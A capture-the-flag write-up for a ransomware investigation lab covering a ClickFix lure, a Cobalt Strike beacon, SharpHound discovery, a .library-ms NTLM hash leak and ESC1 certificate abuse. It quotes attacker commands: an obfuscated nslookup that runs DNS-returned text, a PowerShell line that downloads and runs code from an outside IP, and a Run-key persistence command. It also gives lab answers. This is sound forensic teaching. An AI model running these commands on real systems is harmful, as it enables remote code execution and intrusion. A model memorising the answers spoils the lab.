


# Maromafix Falldown - RansomHub Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access](#initial-access)
  * [DNS Based Payload Staging](#dns-based-payload-staging)
- [Execution](#execution)
- [Persistence](#persistence)
- [Discovery](#discovery)
- [Credential Access](#credential-access)
- [Privilege Escalation](#privilege-escalation)
  * [Active Directory Certificate Services Privilege Escalation Family](#active-directory-certificate-services-privilege-escalation-family)
- [Lateral Movement](#lateral-movement)
- [Defense Evasion](#defense-evasion)
  * [Smbexec Batch File Relay via Escaped Redirection Execution Style](#smbexec-batch-file-relay-via-escaped-redirection-execution-style)
- [Impact](#impact)
- [Recovery](#recovery)
  * [Ransomware Decryption Script](#ransomware-decryption-script)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/maromafix-falldown-ransomhub/](https://cyberdefenders.org/blueteam-ctf-challenges/maromafix-falldown-ransomhub/)

Suggested tools: RegRipper, DB Browser for SQLite, CyberChef, dnSpy, ELK, Timeline Explorer, MFTECmd, Detect It Easy, `defender-dump.py`, CobaltStrikeParser

Tactics: Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Impact

# Scenario

On the morning of March 22, 2026, Maromalix Corporation became the victim of a targeted ransomware attack. Prior to the incident, the company's public-facing website was silently compromised by a threat actor. The attacker modified a single page on the site to display a convincing browser error message, instructing any visitor to run a short command on their machine to "fix" the issue — and one employee did exactly that.

**Investigation Scope**

Your task is to perform a comprehensive investigation to uncover the full extent of the breach and identify the tactics, techniques, and procedures (TTPs) used by the attacker. You are provided with the following resources:

- Triage Images: Disk triage images from four hosts — WKSTN-01, WKSTN-02, WKSTN-03, and DC01.
- SIEM Logs: An ELK instance with pre-parsed logs forwarded from all machines in the environment.
- Network Diagram: A diagram of the compromised environment is provided below for reference.


# Initial Access

**Q1**- The attack chain begins with a single employee visiting the compromised company page (`maromalix.cloud`). Who was it, and when did that visit occur?

Answer: `omar.hassan`, `2026-03-22 14:28`

Reason: The attack chain began when Omar Hassan (`omar.hassan`), an employee on workstation `WKSTN-01` (`10.10.11.104`), visited the compromised page at `hxxps://maromalix[.]cloud/` on `2026-03-22` at `14:28`. Analysts recovered this visit from the Chrome History SQLite database on the `WKSTN-01` triage image, located at `AppData\Local\Google\Chrome\User Data\Default\History`, after Elastic Security Information and Event Management (SIEM) returned no record of it despite checks against Domain Name System (DNS), Hypertext Transfer Protocol (HTTP) `url.domain`, and Transport Layer Security (TLS) Server Name Indication (SNI) fields across `packetbeat`. Packet capture coverage was sparse (~220,000 packets total), underscoring that network telemetry gaps do not equate to a dead investigation when host-based artifacts remain available.


**Q2**- Visiting the compromised page led to a command being executed on the victim's machine that kicked off the entire attack chain. What is that command? (Avoid format issue and get the exact answer from registry, Exclude the & operator and comment that follows it)

Answer: `cmd.exe /c "for /f "tokens=1*" %i in ('n^s^^l^^o^o^kup -timeout^=5 example.com  3.77.33.191 ^| findstr Name:') do %j"`

Reason: Windows Event Logs, shipped via `winlogbeat` into Elastic SIEM, captured `cmd.exe` execution on `WKSTN-01.maromalix.corp` at `14:28:44.427` on `2026-03-22` under `MAROMALIX\omar.hassan`. The command line used caret-character obfuscation to disguise an `nslookup` query, resolving `example.com` against the attacker-controlled DNS server `3.77.33.191` and parsing the response with `findstr` for a line containing `Name:`, then executing the parsed token via a `for /f` loop. Querying a malicious DNS server and executing its returned response is consistent with DNS-based command-and-control staging (MITRE ATT&CK T1071.004), layered with command obfuscation (T1027) and Windows Command Shell execution (T1059.003). A trailing batch comment displayed a reassuring "fixes will be applied" message, consistent with a ClickFix-style lure intended to delay user suspicion while the payload executed.

So the whole chain is: query a rogue DNS server → it returns a forged record whose `Name` field secretly contains a second-stage command → `findstr/for /f` extract that text → `do` executes it as a new command. There's no CNAME, no chunking, no encoding visible here — it's a single fake resource record being abused as a covert delivery channel for a single payload string, and the do `%%j` is what actually detonates it.

```powershell
"C:\Windows\system32\cmd.exe" /c "for /f "tokens=1*" %%i in ('n^s^^l^^o^o^kup -timeout^=5 example.com  3.77.33.191 ^| findstr Name:') do %%j" & :: Set back and stay still and fixes will be applied now
```


**Q3**- What is the IP address of the attacker-controlled DNS server, and in which field of the response was the payload returned?

Answer: `3.77.33.191`, `Name`

Reason: The `nslookup` command queried `example.com` but directed that query to an attacker-controlled DNS server at `3.77.33.191` instead of the victim's normal resolver. Because the attacker controlled that server, it returned a forged Name field containing attacker-chosen text instead of the queried hostname. `findstr Name:` and the subsequent `for /f` loop extracted that text and executed it via `do %%j`, turning a single DNS query and response into a covert payload-delivery and remote-code-execution channel, a pattern best described as DNS Response Hijacking for Payload Delivery and Remote Code Execution.

```powershell
"C:\Windows\system32\cmd.exe" /c "for /f "tokens=1*" %%i in ('n^s^^l^^o^o^kup -timeout^=5 example.com  3.77.33.191 ^| findstr Name:') do %%j" & :: Set back and stay still and fixes will be applied now

The command, broken into its real steps:
1. nslookup -timeout=5 example.com 3.77.33.191 — query the literal string example.com (the actual domain queried is irrelevant/arbitrary — it's just a placeholder hostname), but send that query directly to 3.77.33.191 instead of the system's normal DNS resolver. The third argument to nslookup overrides which server gets asked.
2. Because the attacker fully controls 3.77.33.191, this server doesn't have to answer truthfully or even relevantly. A normal DNS server, when asked "what's the A record for example.com?", replies with an answer record whose Name field echoes the question (Name: example.com) and an Address field with the real IP. The attacker's rogue server instead crafts a forged answer record where the Name field itself is overwritten with arbitrary attacker-chosen text — that's the payload — regardless of what was actually asked. DNS doesn't cryptographically bind the answer's Name field to match the question; nslookup just prints whatever the response claims.
3. | findstr Name: filters nslookup's text output down to just the line(s) starting with Name: — which is now the line containing the attacker's payload string instead of example.com.
4. for /f "tokens=1*" %%i in (...) do %%j — parses that filtered line, splits it into the first token (%%i, which would be the literal word Name:) and "the rest of the line" (%%j, the payload itself, since tokens=1* means "token 1 goes to the first variable, everything remaining goes to the last variable").
5. do %%j — this is the actual execution step: cmd.exe treats %%j (the payload text extracted from the DNS response) as a command and runs it directly.
```

## DNS Based Payload Staging

**DNS Response Hijacking for Payload Delivery and Remote Code Execution**: A DNS query is sent to a server the attacker controls, rather than a trusted resolver. Because the attacker owns the answering server, the response data (name field, CNAME, TXT record, etc.) can contain arbitrary attacker-chosen content instead of legitimate resolution data. The victim's client parses that response and treats part of it as something to execute, turning a routine network lookup into a delivery mechanism.

**Components**

- Attacker-controlled authoritative DNS server (any public IP capable of answering queries for a domain it owns or spoofs)
- Victim-side resolver utility (`nslookup`, `dig`, `Resolve-DnsName`, or a custom resolver call)
- A parsing/extraction step on the victim side (string matching, token splitting, regex)
- An execution sink that takes the extracted string and runs it (shell `do`/`%%j` expansion, `iex`, `eval`, etc.)

**Mechanics**

1. Victim host issues a DNS query against the attacker's server instead of (or in addition to) a normal resolver.
2. Attacker's server returns a response where the answer field holds attacker-chosen data rather than a real address.
3. Victim-side logic extracts a specific piece of that response (commonly the name/answer field).
4. The extracted string is passed directly into an execution context, with no validation that it's "just a hostname."
5. Optionally, this repeats across multiple queries (incrementing subdomains, counters, or sequence labels) when the payload exceeds what a single record can hold, with each response fragment concatenated client-side before execution.

**Variations**

- Single-query: one response becomes one command (fast, low payload size).
- Multi-query/fragmented: payload split across many A/CNAME/TXT lookups, reassembled before execution; trades speed for stealth and larger payload capacity.
- Obfuscation is commonly layered on top via caret/character insertion or encoding in the command invoking the lookup, to evade string-based detection on the command line itself.

**Detection opportunities**

- Command-line logging (Sysmon Event ID 1, Windows Event ID 4688) for `nslookup`/`dig`/`Resolve-DnsName` invocations chained into `for /f`, `iex`, or similar execution constructs.
- DNS query destinations that aren't the environment's configured resolvers, especially direct queries to external/non-standard IPs.
- Repeated rapid-fire DNS queries to the same external host with incrementing patterns (sequence numbers, counters) in the queried name.
- Process trees where a DNS utility's output flows directly into `cmd.exe`, `powershell.exe`, or another interpreter.

**Mitigations**

- Restrict outbound DNS to approved internal resolvers; block direct client queries to arbitrary external DNS servers (egress filtering on port 53/UDP and TCP).
- Application/script-level: never execute resolver output without validation against an expected format.
- DNS monitoring/threat intel feeds flagging known DNS-based command-and-control infrastructure.

**Related ATT&CK techniques**

- T1071.004 — Application Layer Protocol: DNS (C2 channel)
- T1027 — Obfuscated Files or Information
- T1059.003 — Command and Scripting Interpreter: Windows Command Shell

# Execution

**Q4**- Following the execution chain from the DNS response, what is the next-stage payload that was executed on the victim machine?

Answer: `powershell  -nop -w hidden -c IEX((new-object net.webclient).downloadstring('hxxp://35.158.162.78/a'))` 

Reason: The text extracted from the forged DNS Name field was a PowerShell one-liner, captured via Sysmon Event ID 1 (process creation logging) with the filter `event.provider.keyword: "Microsoft-Windows-Sysmon", winlog.computer_name.keyword: "WKSTN-01.maromalix.corp", winlog.event_id.keyword: 1, winlog.event_data.User.keyword: *omar*` at `14:28:44.662` on `2026-03-22`, just `235ms` after the initial `cmd.exe`/`nslookup` execution. It used `-nop` (no profile, skips loading the PowerShell profile) and `-w hidden` (hidden window, suppresses a visible console), wrapping `IEX` (Invoke-Expression) around a `System.Net.WebClient.DownloadString` call against `hxxp://35[.]158[.]162[.]78/a`. This is a fileless download-and-execute pattern: the retrieved script runs entirely in memory without touching disk, mapping to MITRE ATT&CK T1059.001 (PowerShell) and T1105 (Ingress Tool Transfer).

```sql
event.provider.keyword: "Microsoft-Windows-Sysmon" and winlog.computer_name.keyword: "WKSTN-01.maromalix.corp" and winlog.event_id.keyword: 1 and winlog.event_data.User.keyword: *omar*
```

```powershell
powershell  -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://35.158.162.78/a')) 

Process GUID: {97C502F8-FC9C-69BF-4419-000000009A03}
```

**Q5**- The downloaded payload was captured across multiple script block log entries. Reconstruct the full script, then decode each layer until you extract the final PE file — what C2 framework does this beacon belong to?

Answer: Cobalt Strike

Reason: The malicious script never appeared in `WKSTN-01`'s local on-disk `.evtx` files, consistent with the same disk-vs-Elastic gap observed earlier with Sysmon, but Elastic's `winlogbeat` index contained Script Block Logging (`Event ID 4104`) for it once analysts widened the time range to the actual incident window. PowerShell's Script Block Logging split the script's content across 19 separate log entries sharing one `ScriptBlockId`, which were reassembled in order using each entry's `MessageNumber` field via an Elasticsearch Query Language (ES|QL) `SORT ASC` query, bypassing Discover's user interface (UI) sort limitations. This yielded a base64-encoded blob that decoded to gzip-compressed data, which decompressed into a PowerShell script built from the PowerSploit `Invoke-ReflectivePEInjection` template (`func_get_proc_address`/`func_get_delegate_type`), a reflective shellcode loader that allocates memory via `VirtualAlloc`, copies in a byte array deobfuscated with a single-byte Exclusive OR (XOR) key (`35`), and invokes it directly in memory without ever writing a Portable Executable (PE) to disk. This reflective-loader structure, embedded shellcode delivery, and in-memory execution pattern match the signature of a Cobalt Strike PowerShell stager, since Cobalt Strike's Artifact Kit reuses this exact PowerSploit loader code, confirming the beacon belongs to Cobalt Strike.

Reconstruction chain:

1. Elastic `winlogbeat-7.15.1-2026.03.22`, `event.code: 4104`, grouped by `ScriptBlockId`, sorted by `MessageNumber` (19 parts)
2. Reassembled script -> base64 decode -> gzip decompress -> PowerSploit `Invoke-ReflectivePEInjection` loader
3. Embedded `$var_code` byte array, XOR key `35`, decoded to raw shellcode
4. `VirtualAlloc` + `Marshal.Copy` + delegate invocation = in-memory shellcode execution (no PE written to disk)

```sql
winlog.event_id: 4104

FROM winlogbeat-7.15.1-2026.03.22
| WHERE winlog.event_data.ScriptBlockId == "04a95dc5-272c-495d-8174-37cfa5cc9ab7"
| SORT winlog.event_data.MessageNumber ASC
| KEEP winlog.event_data.MessageNumber, winlog.event_data.ScriptBlockText
```

```bash
ls -lah
-rw-rw-r-- 1 kali kali 268K Jun 22 17:18 pe
-rw-rw-r-- 1 kali kali 201K Jun 22 17:19 pe_decoded
-rw-rw-r-- 1 kali kali 403K Jun 22 17:20 pe_final
                                                                                                                                                                                                                                      
$ file *  
pe:         ASCII text, with very long lines (65536), with no line terminators # extracted raw from decoded payload after XOR'ing it with hex 23 (CyberChef)
pe_decoded: gzip compressed data, from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 411963
pe_final:   ASCII text, with very long lines (63893)
```


**Q6**- Extract the beacon's configuration. What User-Agent is this beacon configured to use in its HTTP requests?

Answer: `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36`

Reason: VirusTotal returned a 60/68 detection rate for the 307,200-byte file's Secure Hash Algorithm 256-bit (SHA256) hash, with the threat label `trojan.cobaltstrike/beacon`, independently confirming the framework attribution made earlier. Running `parse_beacon_config.py` against the complete file extracted the full Beacon configuration, revealing a Hypertext Transfer Protocol Secure (HTTPS) beacon on port `443` with a 5-second sleep interval and zero jitter, calling back to `35.158.162.78` over `/updates`. The beacon used Malleable Command and Control (C2) techniques to disguise its traffic as legitimate Google Fonts requests via a forged `Host: fonts.googleapis.com` header, and it was configured with the user-agent string `Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36` to further blend in with ordinary Chrome browser traffic.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\CobaltStrikeParser> python .\parse_beacon_config.py 'C:\Users\Administrator\Desktop\Start Here\pe_corrected.bin'
BeaconType                       - HTTPS
Port                             - 443
SleepTime                        - 5000
MaxGetSize                       - 5242880
Jitter                           - 0
MaxDNS                           - Not Found
PublicKey_MD5                    - 41597b599e32ec0dcef4bf5ba3d8affa
C2Server                         - 35.158.162.78,/updates
UserAgent                        - Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
HttpPostUri                      - /submit
Malleable_C2_Instructions        - Empty
HttpGet_Metadata                 - Metadata
                                        base64
                                        prepend "user="
                                        header "Cookie"
HttpPost_Metadata                - ConstHeaders
                                        Content-Type: application/octet-stream
                                   SessionId
                                        parameter "id"
                                   Output
                                        print
SSH_Banner                       - Host: fonts.googleapis.com

HttpGet_Verb                     - GET
HttpPost_Verb                    - POST
HttpPostChunk                    - 0
Spawnto_x86                      - %windir%\syswow64\rundll32.exe
Spawnto_x64                      - %windir%\sysnative\rundll32.exe
CryptoScheme                     - 0
Proxy_Behavior                   - Use IE settings
Watermark_Hash                   - NtZOV6JzDr9QkEnX6bobPg==
Watermark                        - 987654321
bStageCleanup                    - False
bCFGCaution                      - False
KillDate                         - 0
bProcInject_StartRWX             - True
bProcInject_UseRWX               - True
bProcInject_MinAllocSize         - 0
ProcInject_PrependAppend_x86     - Empty
ProcInject_PrependAppend_x64     - Empty
ProcInject_Execute               - CreateThread
                                   SetThreadContext
                                   CreateRemoteThread
                                   RtlCreateUserThread
ProcInject_AllocationMethod      - VirtualAllocEx
bUsesCookies                     - True
HostHeader                       - Host: fonts.googleapis.com
```

# Persistence

**Q7**-At what timestamp did the persistence mechanism get established?

Answer: `2026-03-22 18:49`

Reason: A `cmd.exe` process spawned with `ParentProcessGuid: {97C502F8-FC9C-69BF-4419-000000009A03}`, the original Beacon-launching PowerShell process identified earlier, was observed creating a Registry Run key (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\Update`) configured to re-launch the same download-and-execute stager on every logon. This was captured via Sysmon Event ID 1 (process creation logging) on `WKSTN-01` under the `omar.hassan` user context at `18:49:48.766` on `2026-03-22`, roughly four and a half hours after initial execution, indicating the attacker returned to the already-compromised host to establish persistence rather than doing so immediately upon first access.

```powershell
event.provider.keyword: "Microsoft-Windows-Sysmon" and winlog.computer_name.keyword: "WKSTN-01.maromalix.corp" and winlog.event_id.keyword: 1 and winlog.event_data.User.keyword: *omar* and winlog.event_data.ParentProcessGuid:"97C502F8-FC9C-69BF-4419-000000009A03"
```

```powershell
"'@timestamp"	"winlog.event_data.ProcessGuid"	"winlog.event_data.CommandLine"
"Mar 22, 2026 @ 18:49:48.766"	"{97C502F8-39CC-69C0-2F20-000000009A03}"	"C:\Windows\system32\cmd.exe /C reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Update /t REG_SZ /d ""powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://35.158.162.78:80/a'))"" /f"
```


# Discovery

**Q8**- What is the full path of the directory the attacker used to store their tools and collected output?

Answer: `C:\Users\omar.hassan\Q2_review`

Reason: The same Beacon-spawned `cmd.exe` lineage (`ParentProcessGuid: {97C502F8-FC9C-69BF-4419-000000009A03}`) executed a renamed SharpHound binary (`QA.exe`) at `18:52:31.547` on `2026-03-22`, using `--collectionmethods All --outputdirectroy C:\Users\omar.hassan\Q2_review --zipfilename logs`. This reveals that the attacker staged their tooling and collected Active Directory enumeration output in `C:\Users\omar.hassan\Q2_review`, a directory name deliberately disguised to look like an innocuous work-related folder ("Q2 review") rather than an obvious attacker staging area. SharpHound is the collection component of BloodHound, used to map Active Directory relationships and identify privilege escalation paths.


**Q9**- The attacker used a recon tool to map the domain, but renamed it to avoid detection based on its filename. What is the original name of this tool executable, and what name was it given on disk?

Answer: `SharpHound.exe`, `QA.exe`

Reason: The reconnaissance tool identified earlier by its distinctive `--CollectionMethods All`/`--OutputDirectory`/`--ZipFileName` argument syntax is `SharpHound.exe`, BloodHound's Active Directory enumeration collector. The attacker renamed it to `QA.exe` on disk specifically to evade filename-based detection rules, while leaving its actual command-line argument structure unchanged, which is precisely what exposed its true identity despite the disguise.

**Q10**- What is the name of the final output archive written to disk by the recon tool?

Answer: `20260322185250_revenue.zip`

Reason: Since the original Sysmon Event ID 11 (file creation) path and direct Master File Table (`$MFT`) lookups had been overwritten when the attacker deleted the files during cleanup, the Update Sequence Number (USN) Journal's persistent change-log entries for `Parent Entry Number: 108153` (the `Q2_review` directory) revealed the full sequence. `SharpHound` (`QA.exe`) generated several timestamped JavaScript Object Notation (JSON) collection files, notably `20260322185250_aiacas.json`, `enterprisecas.json`, `ntauthstores.json`, `certtemplates.json`, and `issuancepolicies.json`, all related to Active Directory Certificate Services (AD CS) enumeration. This suggests the attacker was specifically hunting for certificate-based privilege escalation paths, consistent with ESC1-style attacks, a class of AD CS misconfiguration abuse. The individual JSON files were then deleted (`FileDelete`/`Close`) once bundled into the final archive, `20260322185250_revenue.zip`, a name that does not match the `--zipfilename logs` value specified on the command line earlier, indicating the attacker likely renamed the archive afterward to disguise it as an innocuous business document.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Tools\ZimmermanTools\net6> .\MFTECmd.exe -f 'C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01-C.65ffa1da1341bd73-F.D7050KS3FTJ3E.H\uploads\ntfs\%5C%5C
.%5CC%3A\$Extend\$UsnJrnl%3A$J' --csv 'C:\Users\Administrator\Desktop\Start Here'
MFTECmd version 1.2.2.1

Author: Eric Zimmerman (saericzimmerman@gmail.com)
https://github.com/EricZimmerman/MFTECmd

Command line: -f C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01-C.65ffa1da1341bd73-F.D7050KS3FTJ3E.H\uploads\ntfs\%5C%5C.%5CC%3A\$Extend\$UsnJrnl%3A$J --csv C:\Users\Administrator\Desktop\Start
 Here

File type: UsnJournal

Processed C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01-C.65ffa1da1341bd73-F.D7050KS3FTJ3E.H\uploads\ntfs\%5C%5C.%5CC%3A\$Extend\$UsnJrnl%3A$J in 10.3296 seconds

Usn entries found in C:\Users\Administrator\Desktop\Start Here\Artifacts\WKSTN-01-C.65ffa1da1341bd73-F.D7050KS3FTJ3E.H\uploads\ntfs\%5C%5C.%5CC%3A\$Extend\$UsnJrnl%3A$J: 317,942
        CSV output will be saved to C:\Users\Administrator\Desktop\Start Here\20260623022504_MFTECmd_$J_Output.csv
```


**Q11**- The attacker used a Windows utility to enumerate all certificate templates published in the Active Directory. What is the name of this utility, and what is the name of the output file?

Answer: `certutil`, `template_audit.log`

Reason: Continuing along the same Beacon-spawned `cmd.exe` lineage (`ParentProcessGuid: {97C502F8-FC9C-69BF-4419-000000009A03}`), Sysmon captured `C:\Windows\system32\cmd.exe /C certutil -v -template > C:\Users\omar.hassan\Q2_review\template_audit.log` at `19:17:53.546` on `2026-03-22`. This shows the attacker used the built-in Windows utility `certutil`, specifically its `-v -template` flags, which dump verbose details of every certificate template published in Active Directory's Public Key Infrastructure (PKI) configuration, and redirected the output to `template_audit.log`, stored in the same `Q2_review` staging directory as the `SharpHound` output. This is a complementary, native-tool follow-up to the AD CS-focused JSON files SharpHound already collected, consistent with the attacker hunting for certificate-based privilege escalation (ESC) opportunities using a legitimate, signed Microsoft binary, a Living Off the Land Binary (LOLBin).

```powershell
event.provider.keyword: "Microsoft-Windows-Sysmon" and winlog.computer_name.keyword: "WKSTN-01.maromalix.corp" and winlog.event_id.keyword: 1 and winlog.event_data.User.keyword: *omar* and winlog.event_data.ParentProcessGuid:"97C502F8-FC9C-69BF-4419-000000009A03"
```


# Credential Access

**Q12**- The attacker moved a file onto shares hosted on the Domain Controller. What was the name of the file copied to the shares, and which shares did the attacker successfully write it to? (List the shares in the order the file was written to them.)

Answer: `2026_Payroll_Adjustments.zip`, `\\DC01\Finance\`, `\\DC01\IT-Helpdesk\`

Reason: The attacker attempted to copy `2026_Payroll_Adjustments.zip` from `WKSTN-01` to four `DC01` shares in sequence, `\\DC01\Development\` (`19:20:12.338`), `\\DC01\Finance\` (`19:20:18.539`), `\\DC01\HR\` (`19:20:25.265`), and `\\DC01\IT-Helpdesk\` (`19:20:31.488`), via `cmd.exe` children of the original Beacon process. Only two writes actually succeeded, confirmed by cross-referencing `DC01`'s USN Journal for matching `FileCreate` events at `19:20:18` and `19:20:31` and resolving their `Parent Entry Number` values (`331220` and `331218`) against the live `$MFT` to verify they correspond to the `Finance` and `IT-Helpdesk` share directories respectively. Notably, the file itself no longer appears anywhere in `DC01`'s live `$MFT` despite the confirmed successful writes, consistent with the same post-operation cleanup behavior already observed with the SharpHound archive earlier, meaning the attacker (or a subsequent stage of the attack) deleted the staged file from both shares after use, leaving only the USN Journal's historical change-log entries as evidence it was ever there. This activity maps to MITRE ATT&CK T1570 (Lateral Tool Transfer) and T1070.004 (Indicator Removal: File Deletion).

```sql
event.provider.keyword: "Microsoft-Windows-Sysmon" and winlog.computer_name.keyword: "WKSTN-01.maromalix.corp" and winlog.event_id.keyword: 1 and winlog.event_data.User.keyword: *omar* and winlog.event_data.ParentProcessGuid:"97C502F8-FC9C-69BF-4419-000000009A03"
```


**Q13**- That file was actually a ZIP archive. What is the name of the file contained inside it?

Answer: `2026_Payroll_Adjustments.library-ms`

Reason: Cross-referencing the `UsnJrnl` for activity following each zip's creation revealed an identical pattern on both shares: shortly after each `2026_Payroll_Adjustments.zip` was written, a same-named folder was created, the artifact of extraction, containing a single file, `2026_Payroll_Adjustments.library-ms`, whose parent is the directory created in the previous step, confirming the relationship. Both the extracted folder/file and the original zip were then deleted minutes later, confirming the archive's sole contents. The `.library-ms` extension is notable since Windows Library files can be abused to trigger Server Message Block (SMB) connections or execute embedded references without conventional user interaction, which aligns with MITRE ATT&CK T1570 (Lateral Tool Transfer) and T1070.004 (Indicator Removal: File Deletion).


**Q14**- The inner file was subsequently deleted, but we were able to recover it through filesystem forensics. Examining its content reveals a UNC path pointing to an attacker-controlled server. Given this file extension and UNC path, and knowing the attacker's intention was to steal users' NTLM hashes — what CVE does this file exploit?

Answer: CVE-2025-24071

Reason: The deleted `2026_Payroll_Adjustments.library-ms` file's actual byte content was unrecoverable from `DC01`'s artifacts despite exhausting every reasonable forensic avenue. The `$MFT`-resident data was unavailable since both copies' Master File Table (MFT) slots had already been overwritten by subsequent ransomware-encrypted `.94ccaa` files. The Recycle Bin held nothing since the file was deleted via command-line, bypassing it entirely. Volume Shadow Copies were not present on `DC01`. The `$LogFile` retained only the deletion transaction, since this circular log had already cycled out the creation-time transaction.

However, the file type, its delivery via a ZIP archive dropped onto Server Message Block (SMB) shares, and the stated objective of leaking victims' New Technology LAN Manager (NTLM) hashes via an embedded Universal Naming Convention (UNC) path uniquely match CVE-2025-24071, a Windows File Explorer Spoofing Vulnerability patched in March 2025. In this vulnerability, a `.library-ms` file triggers automatic SMB authentication to an attacker-controlled UNC path the moment Windows Explorer parses it from an extracted archive, requiring no double-click or active execution by the victim.

**Q15**- We believe any interaction with this file was enough to trigger the CVE. Which users were affected? (listed in the order they interacted with the file)

Answer: `omar.hassan`, `nour.khalil`, `ahmed.farouk`

Reason: `DC01`'s Security Auditing logs captured direct share/object access events (Event ID 5145, "A network share object was checked to see whether client can be granted desired access") showing `omar.hassan` (source `10.10.11.104`, `WKSTN-01`) and `nour.khalil` each accessing `\\*\IT-Helpdesk\2026_Payroll_Adjustments\2026_Payroll_Adjustments.library-ms` directly via SMB, providing first-party evidence of their interaction with the file. The third affected user, `ahmed.farouk` on `WKSTN-03` (`10.10.11.109`), did not appear in those same share-access events, but was identified instead through `packetbeat` showing repeated outbound SMB connections (`destination.port: 445`) from `WKSTN-03` to `DC01` (`10.10.11.154`) clustered around the same timeframe as the other two confirmed interactions. This is consistent with CVE-2025-24071's behavior, where Explorer simply parsing the file, even without an explicit double-click, is enough to trigger the outbound authentication leak, meaning the network traffic signature itself stood in for a direct share-access audit record that was not otherwise logged for that user.


# Privilege Escalation

**Q16**- Exploiting the CVE above gave the attacker access to the NTLM hashes of those users, and potentially their plaintext passwords. The last user to access the file was a member of a group with certificate enrollment rights. We suspect the attacker used these recovered credentials to request a certificate and impersonate a more privileged account. What is the UPN specified in the Subject Alternative Name (SAN) field of that certificate request?

Answer: `mohamed.elfeky@maromalix.corp`

Reason: Certificate Services logging (Event ID 4886) on `DC01` captured a certificate request submitted by `khaled.ibrahim`, likely the true last user to interact with the malicious `.library-ms` file, via local/interactive access to `DC01` rather than the remote SMB access pattern used to identify the other three victims. The request used the `Maromalix-UserAuth` template with a Subject Alternative Name specifying `upn=mohamed.elfeky@maromalix.corp`, indicating the attacker leveraged `khaled.ibrahim`'s captured credentials to request a certificate impersonating a separate, presumably more privileged account (`mohamed.elfeky`). This is a classic Active Directory Certificate Services (AD CS) ESC1-style privilege escalation technique, mapping to MITRE ATT&CK T1649 (Steal or Forge Authentication Certificates).


**Q17**- What is the name of the vulnerable certificate template, and what ESC category does it fall under?

Answer: `Maromalix-UserAuth`, ESC1

Reason: Event ID 4887 confirms Certificate Services approved and issued the certificate (`Disposition: 3 = issued`) for template `Maromalix-UserAuth`, requested by `khaled.ibrahim` with `CN=Khaled.ibrahim` as the certificate's actual Subject, while the Subject Alternative Name (SAN) field separately specified `upn=mohamed.elfeky@maromalix.corp`. This exact mismatch, a low-privileged requester supplying an arbitrary, attacker-chosen User Principal Name (UPN) in the SAN that does not match their own identity, with the Certificate Authority (CA) blindly approving it, is the textbook definition of ESC1, the most common Active Directory Certificate Services (AD CS) privilege escalation misconfiguration. In this misconfiguration, a certificate template allows enrollees to specify any SAN value instead of restricting it to their own identity, while also permitting client authentication, letting any low-privileged user request a certificate that authenticates as anyone else, including Domain Admins. This activity maps to MITRE ATT&CK T1649 (Steal or Forge Authentication Certificates).

## Active Directory Certificate Services Privilege Escalation Family

Active Directory Certificate Services (AD CS) misconfigurations span more than one flaw, collectively tracked as ESC1 through ESC11+ (and growing). Each variant abuses a different weak point: template permissions, template settings, CA-level configuration, or NTLM relay against certificate enrollment endpoints. The shared outcome across all of them is the same: a certificate gets issued that lets an attacker authenticate as a higher-privileged identity, or gain control of the CA itself.

**Common variants**

- ESC1: Template allows enrollee-supplied SAN plus Client Authentication EKU; attacker names a privileged account in the SAN field. The most common ESC type.
- ESC2: Template has the "Any Purpose" EKU or no EKU restriction, allowing the issued cert to be used for purposes beyond its intended scope, including authentication.
- ESC3: Template grants the Certificate Request Agent EKU, letting the holder enroll on behalf of other users (effectively a delegated ESC1).
- ESC4: Weak access control list (ACL) on the template itself lets a low-privileged principal modify template settings, then self-grant ESC1-style conditions.
